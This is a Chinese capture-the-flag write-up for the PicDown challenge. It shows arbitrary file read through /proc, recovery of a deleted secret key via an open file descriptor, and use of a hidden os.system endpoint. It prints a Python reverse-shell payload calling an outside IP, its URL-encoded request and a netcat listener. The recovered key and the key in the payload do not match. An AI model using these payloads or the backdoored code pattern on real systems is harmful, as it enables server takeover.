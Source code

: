 # [网鼎杯 2020 白虎组]PicDown

## 知识点

`linux系统使用open()函数未关闭导致可读取内容`

`flask SECRET_KEY`

`任意文件读取`

## 解题

![Alt text](img/24-1.png)

在输入框中输入数据，按`Enter`

![Alt text](img/24-2.png)

`url`参数，看起来像`ssrf`，试了`file:///etc/passwd`和`http://127.0.0.1/`

都没有回显

尝试直接输入路径时会返回文件内容

![Alt text](img/24-3.png)

读取一下`/proc/self/cmdline`看看运行命令

![Alt text](img/24-4.png)

发现是`python2`运行的程序，一般为`flask`

读取一下环境变量

![Alt text](img/24-5.png)

看到当前工作目录为`/app`

查看源码`app.py`

![Alt text](img/24-6.png)

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

需要执行命令，需要知道`SECRET_KEY`的内容

所以这里我们的目标就是想办法获取这个`SECRET_KEY`静态变量，再看看`SECRET_KEY`是怎样获取的：

```python
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

这里是用`open()`方法从 `/tmp/secret.txt` 里面读取的内容作为`SECRET_KEY`的，读取完文件之后就把 `/tmp/secret.txt` 给删掉了，因此我们无法直接包含 `/tmp/secret.txt` 来获取`SECRET_KEY`。

但在 `linux` 系统中如果一个程序用`open()`打开了一个文件但最终没有关闭他，即便从外部（如`os.remove(SECRET_FILE)`）删除这个文件之后，在 `/proc` 这个进程的 `pid` 目录下的 `fd` 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容。`/proc/[pid]/fd` 这个目录里包含了进程打开文件的情况，目录里面有一堆`/proc/[pid]/fd/id`文件，`id`就是进程记录的打开文件的文件描述符的序号。我们通过对`id`的爆破，得到`/tmp/secret.txt`文件描述符的序号：

![Alt text](img/24-7.png)

![Alt text](img/24-87.png)

发现了`SECRET_KEY`的值

如上图所示，在`id`等于`3`的时候读取成功了，得到`secret.txt`的内容为：`nL6/jd0OrBL8tJDrosvTLZNQdATFynSs+FjScxRIy1E=` 。这时我们就可以通过`python`来反弹`shell`了，`python`反弹`shell`的`payload`如下：

使用`Hack-Tools`的`Chrome`插件生成

![Alt Text](img/24-9.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("175.24.207.93",8777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

最终`payload`用`url`编码一下

```url
/no_one_know_the_manager?key=2ZRb4F3xZAJlyrNVhmBH5o7lGUBmoNs4uajixfn4p7o=&shell=python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("175.24.207.93",8777))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/sh")'
```

远程`vps`用`nc -lvnp 8777`监听即可

![Alt Text](img/24-11.png)

![Alt Text](img/24-10.png)